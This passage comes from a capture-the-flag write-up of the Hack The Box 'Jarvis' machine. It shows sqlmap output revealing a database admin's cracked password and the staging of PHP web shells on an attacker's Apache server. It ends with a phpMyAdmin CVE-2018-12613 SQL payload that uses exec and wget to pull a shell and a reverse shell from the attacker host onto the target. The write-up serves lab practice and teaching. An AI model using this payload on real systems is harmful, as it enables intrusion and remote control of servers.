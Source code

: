 ```console
[11:56:44] [INFO] using hash method 'mysql_passwd'
[11:56:44] [INFO] resuming password 'imissyou' for hash '*2d2b7a5e4e637b8fba1d17f40318f277d29964d0' for user 'DBadmin'
database management system users password hashes:
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou

[11:56:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'

[*] ending @ 11:56:44 /2019-07-22/

```

Above we see that sqlmap has found the password for the user `DBadmin` to be `imissyou`.

Now that we have the admin login credentials to MySQL we are able to login to `phpmyadmin` and exploit it to gain a shell.

![phpMyAdmin control panel.](/posts/images/hack-the-box-jarvis-writeup/phpmyadmin_loggedin.png)
**Figure 3:** phpMyAdmin control panel.


### Apache Setup
I'm already aware from previous machines that [HTB's](https://hackthebod.eu) boxes don't allow connecting to github in order to download things we regularly need. So, this time we're going to use Kali's apache server to host some of our own tools to easily download to the box when we get our first shell. We will start the apache service on kali with `service apache2 start`. Then, place our two php shells in the `/var/www/html` directory, but with the `.txt` extension instead of `.php`. It's always convenient to also include the latest versions of [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration), [pyspy](https://github.com/DominicBreuker/pspy), and your public key.

```console
root@kali:/var/www/html# ls -la
total 4460
drwxr-xr-x 2 root root    4096 Jul 22 21:04 .
drwxr-xr-x 3 root root    4096 Feb 11 02:35 ..
-rw-r--r-- 1 root root     391 Jul 22 13:23 id_rsa.pub
-rw-r--r-- 1 root root   10701 Jan 30 02:12 index.html
-rw-r--r-- 1 root root   30972 Jul 22 13:23 lse.sh
-rw-r--r-- 1 root root    5493 Jul 22 13:23 php-reverse-shell.txt
-rwxrwx--- 1 root root 4468984 Jul 22 13:23 pspy64
-rw-r--r-- 1 root root   15744 Jul 22 13:23 shell.txt
```


### CVE-2018-12613
In order to exploit the vulnerability, we first navigate to the SQL Tab and run the following query. 

```sql
select '<?php exec("wget -O /var/www/html/shell.php http://10.10.14.61/shell.txt && wget -O /var/www/html/rshell.php http://10.10.14.61/php-reverse-shell.txt ");  ?>'
```
The query contains php calling `exec` to execute shell commands which `wget` the two php shells we put onto our Kali box's apache server, and changing their extensions to `.php`.
